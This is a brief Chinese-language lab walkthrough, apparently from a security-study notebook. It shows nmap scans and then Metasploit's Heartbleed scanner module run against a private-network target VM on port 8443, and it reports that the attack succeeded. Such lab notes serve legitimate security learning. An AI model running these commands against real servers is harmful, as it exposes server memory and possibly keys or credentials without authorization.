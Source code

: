 
使用kali攻击

1. nmap -O 192.168.132.128 扫描靶机开放端口

![](../image/%E7%BD%91%E7%BB%9C%E6%94%BB%E9%98%B2/Snipaste_2024-11-02_16-57-23.png)

2. 使用 nmap -sV -sT --script=vuln -p 8443 192.168.132.128 进行漏洞扫描

![](../image/%E7%BD%91%E7%BB%9C%E6%94%BB%E9%98%B2/Snipaste_2024-11-02_17-02-52.png)

3. 使用metasploit进行攻击

```shell
msfconsle

search heartbleed

use auxiliary/scanner/ssl/openssl_heartbleed

set rhosts 192.168.132.128

set rport 8443

set verbose true

run
```

![](../image/%E7%BD%91%E7%BB%9C%E6%94%BB%E9%98%B2/Snipaste_2024-11-02_17-06-30.png)

攻击成功!
